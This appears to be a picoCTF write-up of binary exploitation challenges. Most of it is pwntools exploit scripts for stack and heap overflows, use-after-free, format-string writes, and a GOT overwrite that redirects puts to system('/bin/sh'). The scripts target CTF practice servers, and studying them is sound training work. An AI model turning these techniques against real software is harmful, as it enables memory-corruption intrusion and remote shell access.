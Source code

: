 # Binary

## format string 0
It named 'format string' but just a ROP attack.<br />

![Image](fs01.png)

```Python
from pwn import *
e = ELF("format-string-0",checksec=False)
p = process("format-string-0")
#p = remote("mimas.picoctf.net",64654)
p.recv()
payload = b"A"*56

payload += p64(e.sym['sigsegv_handler'])

p.sendline(payload)
print(p.recvall())
```
## heap 0
Just a heap overflow.<br />
```Python
from pwn import *

p = remote("tethys.picoctf.net",55418)

print(p.recv())
p.sendline(b"2")
print(p.recv())
p.sendline(b"A"*36)
p.recv()
p.sendline(b"4")
print(p.recvall())
```
## format string 1
Just a format string vulnerability.<br />
Input '%lx/%lx/%lx/%lx/%lx/%lx/%lx/%lx/%lx/%lx/%lx/%lx/%lx/%lx/' to read stacks.<br />

```Python
from pwn import *

# result of input '%lx/%lx/%lx/%lx/%lx/%lx/%lx/%lx/%lx/%lx/%lx/%lx/%lx/%lx/'
s = "402118/0/7f827b710a00/0/215e880/a347834/7ffd65019fc0/7f827b501e60/7f827b7264d0/1/7ffd6501a090/0/0/7b4654436f636970/355f31346d316e34/3478345f33317937/34365f673431665f/7d363131373732/7/7f827b7288d8/2300000007/206e693374307250/a336c797453/9/7f827b739de9/7f827b50a098/7f827b7264d0/0/7ffd6501a0a0/2f786c252f786c25/2f786c252f786c25/2f786c252f786c252f786c252f786c25/2f786c252f786c25/2f786c252f786c25/2f786c252f786c25/"

words = s.split("/")

for w in words:
    try:
        print((bytes.fromhex(w).decode())[::-1],end="")
    except:
        print("/",end="")
```
## heap 1
Just a heap overflow<br />
```Python
from pwn import *

#p = process("chall")
p = remote("tethys.picoctf.net", 54557)

print(p.recv().decode())

p.sendline(b"2")

print(p.recv().decode())

payload = b"A"*32 + b"pico"

p.sendline(payload)

p.recv()
p.sendline(b"4")

print(p.recvall().decode())
```
## heap 2
Just a heap overflow.<br />
```C
void check_win() { ((void (*)())*(int*)x)(); }
```
This function runs function where address is x.<br />
So overwrite x into win().<br />

```Python
from pwn import *

p = process("chall")
e = ELF("chall",checksec=False)
#p = remote("mimas.picoctf.net", 51204)

print(p.recv().decode())

p.sendline(b"2")

print(p.recv())
payload = b"A"*32 + p64(e.sym['win'])

p.sendline(payload)

p.recvline()
p.sendline(b"4")
print(p.recvall().decode())
```
## heap 3
There's vulnerability of 'use after free'.<br />
malloc() took a same heap memory if malloc() took same size after free().<br />
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

typedef struct {
  char a[10];
  char b[10];
  char c[10];
  char flag[5];
} object;

int main(void){
    //Check Size of object
    printf("%ld",sizeof(object));

    return 0;
}
```
The size of object is 34.<br />
1. Free x
2. Allocate object
3. Input size : 34
4. Input data : 'A'*30 + 'pico'
5. Check to win
## format string 2
There's format string vulnerability and I have to change the value of 'sus'.<br />
pwntools is powerful for solve this challenge.<br />
```Python
from pwn import *

p = process("vuln")
#p = remote("rhea.picoctf.net", 58588)

print(p.recv().decode())

elf = ELF('./vuln')
sus = elf.sym['sus']

context.clear(arch = 'amd64')

print(sus)

payload = fmtstr_payload(14,{sus : 0x67616c66})

print(payload.decode())
p.sendline(payload)

print(p.recvall().decode())
```
## format string 3
There's also format string vulnerability and there's interesting string, '/bin/sh'.<br />
Both 'puts' and 'system' are also take argument in RDI.<br />
So change the puts address to system, it's makes system('/bin/sh').<br />
There's GOT that hold address of libc,and we can get setvbuf address.<br />
Calculate system() address and overwrite, I can exploit successfully.
```Python
from pwn import *

e = ELF('format-string-3')
libc = ELF('libc.so.6')

p = process("format-string-3")
#p = remote("rhea.picoctf.net", 53699)

print(p.recvuntil(b"libc: ").decode())

libcSetvbuf = p.recvline().replace(b"\n",b"").decode()

print(libcSetvbuf)

putsGot = e.got['puts']
print("<elf> ::GOT     => " , hex(e.got['puts']))
print("<libc>::setvbuf    => ",hex(libc.sym['setvbuf']))
print("<libc>:::system => ",hex(libc.sym['system']))
context.clear(arch = 'amd64')

addr =libc.sym['system'] - libc.sym['setvbuf'] + int(libcSetvbuf,16)

payload = fmtstr_payload(38, {e.got['puts'] : addr})


print(payload)

p.sendline(payload)

p.interactive()
```